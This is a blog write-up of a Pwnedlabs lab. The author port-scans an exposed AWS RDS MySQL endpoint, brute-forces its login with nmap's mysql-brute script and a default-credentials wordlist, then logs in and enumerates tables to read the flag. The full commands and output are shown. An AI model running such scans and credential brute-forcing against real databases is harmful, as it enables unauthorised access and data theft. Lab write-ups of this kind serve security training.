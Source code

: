 ```yaml
---
author: Nithissh S
pubDatetime: 2024-03-14T15:22:00Z
modDatetime: 2024-03-14T09:12:47.400Z
title: Pillage Exposed RDS Instances - Pwnedlabs Writeup
slug: pillage-exposed-rds
featured: false
draft: false
tags:
  - AWS
  - AWS RDS
  - Password Cracking
description:
  With only RDS endpoint, will look into how weak password can be easily exploited that leads to a entire database compromised 
---
```


# Initial Entry

The scenario here is in the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Huge Logistics is taking no chances. They’ve enlisted your team’s expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an RDS endpoint: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Your mission? Dive deep into this endpoint’s security, and identify any security issues before threat actors do.

  

## Understand what is RDS

Amazon RDS is defined as a Relation database services in more of distributed way.. Kind of service offering from AWS to simply the setup, operational changes and scaling of application and one thing to remember is Amazon RDS supports PostgreSQL, MySQL, Maria DB, Oracle, SQL Server, and Amazon Aurora

  

## Approaching for a solution 

With the following RDS instance URL: [exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") we will do a simple nmap scan on top 1000 ports and as a result, we can see that port 3306 is open and runs a mysql server 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nmap -sV -Pn --top 1000 -vvv exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:00 PST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.29s elapsed
DNS resolution of 1 IPs took 0.29s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:00
Scanning exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68) [1000 ports]
Discovered open port 3306/tcp on 16.171.94.68
Completed Connect Scan at 21:01, 42.93s elapsed (1000 total ports)
Initiating Service scan at 21:01
Scanning 1 service on exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Completed Service scan at 21:01, 25.40s elapsed (1 service on 1 host)
NSE: Script scanning 16.171.94.68.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.35s elapsed
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up, received user-set (0.17s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com
Scanned at 2024-02-16 21:00:26 PST for 69s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
3306/tcp open  mysql?  syn-ack
```

Look into banner grabbing through netcat, we found that `mysql_native_password`  is supported and what that means is it is authentication mechanism used in mysql when you enter the password it get converted into some kind of kind hash using a method called password native hashing and later when the user enters the password again it is converted into hash format and compared with the stored hash.. If it is validated and verified, user will get loggedin 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
J
8.0.32��
       QD]R<�����bAd;F1B*mysql_native_password2
```

  

We can also do the username and password manually but it is time consuming and so, we are automating it using nmap’s mysql-brute script for that we need to do a similiar setups like firstly need a wordlist and for that we are utilizing seclists and setup the delimiter between of the wordlist because it is in the format of `root:root`  where the nmap script supports if it is in a particular format `root/root` 

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
--2024-02-16 21:30:46--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 343 [text/plain]
Saving to: ‘mysql-creds.txt’

mysql-creds.txt               100%[=================================================>]     343  --.-KB/s    in 0s

2024-02-16 21:30:46 (51.9 MB/s) - ‘mysql-creds.txt’ saved [343/343]

r4y@DESKTOP-3KBF4H7:/tmp$ sed -i 's/:/\//g' mysql-creds.txt
r4y@DESKTOP-3KBF4H7:/tmp$ cat mysql-creds.txt
root/mysql
root/root
root/chippc
admin/admin
root/
root/nagiosxi
root/usbw
cloudera/cloudera
root/cloudera
root/moves
moves/moves
root/testpw
root/p@ck3tf3nc3
mcUser/medocheck123
root/mktt
root/123
dbuser/123
asteriskuser/amp109
asteriskuser/eLaStIx.asteriskuser.2oo7
root/raspberry
root/openauditrootuserpassword
root/vagrant
root/123qweASD#
```

  

With the nmap, we can bruteforce with the `mysql-brute`  script and additonally you can pass the wordlist which we have edited through `brute.credfile` params.. After nmap scan is completed, we found ou valid credentials for the database which is `dbuser:123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:35 PST
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up (0.16s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts:
|     dbuser:123 - Valid credentials
|_  Statistics: Performed 23 guesses in 33 seconds, average tps: 0.8

Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds
```

  

In mysql commandline on to your host machine and with the following we can able to connect to the host [`exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") with the username as `dbuser` and our password will be `123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 311539
Server version: 8.0.32 Source distribution

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

Let’s check the permissions or grants of `dbuser`  with the following query `SHOW GRANTS FROM “dbuser”;`  where it will show what it has access to and we have access `user_info` database and in the you can enumerate users table or flag as well

  

```bash
mysql> SHOW GRANTS FOR "dbuser"
    -> ;
+-----------------------------------------------------+
| Grants for dbuser@%                                 |
+-----------------------------------------------------+
| GRANT USAGE ON *.* TO `dbuser`@`%`                  |
| GRANT SELECT ON `user_info`.`flag` TO `dbuser`@`%`  |
| GRANT SELECT ON `user_info`.`users` TO `dbuser`@`%` |
+-----------------------------------------------------+
3 rows in set (0.18 sec)
```

  

Let’s change the database by entering query which is `use user_info;`  and once the database is changed, try disclosing the table susing `show tables`⁠

  

```bash
mysql> use user_info;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_user_info |
+---------------------+
| flag                |
| users               |
+---------------------+
2 rows in set (0.18 sec)
```

  

We got our flag with the following query `SELECT * FROM flag` 

```bash
mysql> select * from flag
    -> ;
+----------------------------------+
| flag                             |
+----------------------------------+
| e1c342d58b6933b3e0b5078174fd5a62 |
+----------------------------------+
1 row in set (0.17 sec)
```
